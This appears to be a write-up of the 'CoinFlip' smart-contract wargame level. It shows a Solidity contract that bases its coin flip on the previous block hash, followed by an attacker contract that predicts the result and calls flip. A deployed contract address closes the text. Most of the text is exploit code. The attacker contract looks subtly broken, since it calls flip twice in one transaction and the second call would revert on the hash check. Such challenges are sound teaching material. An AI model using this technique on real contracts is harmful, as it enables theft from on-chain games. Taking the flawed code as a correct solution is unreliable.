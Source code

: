 pragma solidity ^0.4.18;

contract CoinFlip {
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function CoinFlip() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(block.blockhash(block.number-1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}

This can e found out by finding the last hash and dividing it by FACTOR

This contract will receive as an argument the contract number from the previous contract. It will give the correct answer of the contract and call the contract.
pragma solidity ^0.4.24;

 contract CoinFlip{
    function flip(bool _guess) public returns (bool);
 }

contract CoinFlipper{
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function flipcoin(address coinContract) public {
    
    uint256 blockValue = uint256(block.blockhash(block.number-1));
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;
    
    coinContract.call(bytes4(keccak256("flip(bool)")), side);
    CoinFlip contractToCall = CoinFlip(coinContract);
    contractToCall.flip(side);
    
  }
}

contract address:
0x46b9d275207c2c6286593fddebdc30132448f4a4